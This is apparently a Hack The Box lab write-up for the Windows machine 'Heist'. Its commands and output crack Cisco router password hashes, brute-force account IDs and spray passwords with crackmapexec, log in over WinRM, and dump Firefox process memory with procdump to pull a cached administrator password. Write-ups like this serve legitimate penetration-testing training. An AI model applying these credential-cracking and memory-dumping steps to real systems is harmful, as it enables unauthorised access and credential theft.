


Box: Windows
Level: Easy
### Index
1. Box Info 
2. Initial Nmap Enumeration
3. [SMB Enum](#SMB%20Enum)
4. [Web Enum](#Web%20Enum)
5. [Cracking Cisco IOS Hash](#Cracking%20Cisco%20IOS%20Hash)
6. [User Flag](#User%20Flag)
7. [Privilege Escalation](Heist%20HTB.md#Privilege%20Escalation)
	7.1  [Grabbing Strings from Dump File](#Grabbing%20Strings%20from%20Dump%20File)
	

### Box Info
```
Heist is an easy difficulty Windows box with an &amp;amp;quot;Issues&amp;amp;quot; portal accessible on the web server, from which it is possible to gain Cisco password hashes. These hashes are cracked, and subsequently RID bruteforce and password spraying are used to gain a foothold on the box. The user is found to be running Firefox. The firefox.exe process can be dumped and searched for the administrator&amp;amp;#039;s password.
```

### Initial Nmap Enumeration
```
# nmap -p- --min-rate=100000 -Pn heist.htb               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 22:49 EDT
PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
445/tcp open  microsoft-ds
```

```
# nmap -p- --min-rate=1000 -sC -sV -Pn -A heist.htb    
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (86%)
Aggressive OS guesses: Microsoft Windows Server 2019 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 15s
| smb2-time: 
|   date: 2024-09-01T02:53:07
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   35.40 ms 10.10.14.1
2   35.18 ms heist.htb (10.10.10.149)
```

```
# nmap -p5985 --min-rate=1000 -A -T2 -sC -sV -sT 10.10.10.149
PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   31.37 ms 10.10.14.1
2   34.47 ms heist.htb (10.10.10.149)
```

### SMB Enum
Trying to enumerate share
```
# smbclient --no-pass -L //heist.htb
session setup failed: NT_STATUS_ACCESS_DENIED
```

```
└─# smbmap -u 'Guest' -p '' -H 10.10.10.149
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 0 SMB connections(s) and 0 authenticated session(s)                                                      
[*] Closed 0 connections                                                                                                     
```

### Web Enum



Clicking on `Login as guest` reveals a little communication with one attachment.



A user `Hazard` is experiencing the problem with his cisco router and attach his cisco configuration. Clicking on Attachment dump the following configuration.

```
URL: http://heist.htb/attachments/config.txt

version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

### Cracking Cisco IOS Hash

We are going to crack the hash from the above configuration. There are three hashes that we can crack from the above config file.
```
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```

The first one is easy. We can crack it with `hashcat`.
```
# hashcat -m 500 -a 0 cisco.txt /usr/share/wordlists/rockyou.txt --show
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

To crack the second and third one, We will need to get this GitHub Repo - [Cisco Type 7 Password Decryptor](https://github.com/theevilbit/ciscot7) and then give a config file to get the password for both the hashes.

```
# python ciscot7.py -d -f config.txt          
Decrypted password: $uperP@ssword
Decrypted password: Q4)sJu\Y8qz*A3?d
```

So far we have three different passwords (`One Cracked using Hashcat` and `Two Cracked using ciscot7.py` and three usernames `rout3r`, `admin`, `Hazard`
### RID Brute Force Attack

Using `crackmapexec` we are going to RID Cycling Brute Force attack and enumerate users using the `Hazard's` credentials. I tried couple of combinations before finding the valid credentials for the user `Hazard`

```
# crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

all right, we got list of usernames. Let's try `evil-winrm` on each one.

### User Flag

```
# evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
cd*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
e683ee801d2dde0fac8a7c0ce2818ea7
*Evil-WinRM* PS C:\Users\Chase\Desktop> 
```

Get your User Flag

### Privilege Escalation 

some of the notable winPEASany.exe findings are posted below
```
##################
System Environment Variables
COMPUTERNAME: SUPPORTDESK
PSModulePath: C:\Users\Chase\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules; C:\Windows\system32\WindowsPowerShell\v1.0\Modules
USERDOMAIN: SUPPORTDESK

##################
AV Information
  [X] Exception: Invalid namespace 
    No AV was detected!!

##################
Enumerating NTLM Settings
  LanmanCompatibilityLevel    :  (Send NTLMv2 response only - Win7+ default)

  NTLM Signing Settings                                                                                                                                                 
  ClientRequireSigning    : False
  ClientNegotiateSigning  : True
  ServerRequireSigning    : False
  ServerNegotiateSigning  : False
  LdapSigning             : Negotiate signing (Negotiate signing)

################## 
Looking AppCmd.exe
  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe
      You must be an administrator to run this check


################## 
Looking for Firefox DBs
   https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db
  Run SharpWeb (https://github.com/djhohnstein/SharpWeb)

################## 
Looking for possible password files in users homes
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml

##################
Found Raw Hashes-sha512 Regexes
C:\Users\All Users\Mozilla\updates\308046B0AF4A39CB\updates.xml: "4641f5d1d47961fec021a1ab3143fc861c1d8b2096f61456944c96eea0ec2942cf4df5b0e9c0ccc5b2024215abc787f24e728ba4b548b8d0b4d6e97e3663df2f" 
```

Let's capture the Login Request in Burp. We will need it to figure out how the login form is sending the `POST` data.

```
POST /login.php HTTP/1.1
Host: heist.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://heist.htb
Connection: keep-alive
Referer: http://heist.htb/login.php
Cookie: PHPSESSID=bbdugni2a2p5fffk6cm7674i1b
Upgrade-Insecure-Requests: 1

login_username=support%40heist.htb&login_password=asdf&login=
```

This is a HTTP request with a wrong password and wrong email but we manage to capture the format of how the data is being sent. 

I tried to dump the credentials using `Invoke-Mimikatz` but unfortunately it wasn't working for me. So I decided to go with dumping the `firefox.exe` process using `[[procdump64.exe]](https://live.sysinternals.com/procdump64.exe)`.

```
*Evil-WinRM* PS C:\tmp> Get-Process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    355      25    16464     297388       0.09   4180   1 firefox
   1079      71   155932     232648       6.14   6556   1 firefox
    347      19    10204      35284       0.09   6676   1 firefox
    401      34    37224      95612       0.95   6808   1 firefox
    378      28    23480      60216       0.39   7084   1 firefox


*Evil-WinRM* PS C:\tmp> .\procdump64.exe -ma 4180 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[14:22:34] Dump 1 initiated: C:\tmp\firefox.exe_240901_142234.dmp
[14:22:34] Dump 1 writing: Estimated dump file size is 298 MB.
[14:22:34] Dump 1 complete: 298 MB written in 0.4 seconds
[14:22:35] Dump count reached.
```

###### Grabbing Strings from Dump File
Next, We are going to locate the string `login_username=` from the dump file to pull out the password stored in the cache post request.

```
On your Kali
# strings firefox.exe_240901_131626.dmp | grep 'login_username='
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Great! We got Admin Password

```
# evil-winrm -i 10.10.10.149 -u 'administrator' -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop\
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
44b67b352b7c1813aa9017817aea2c00

```

Get your root flag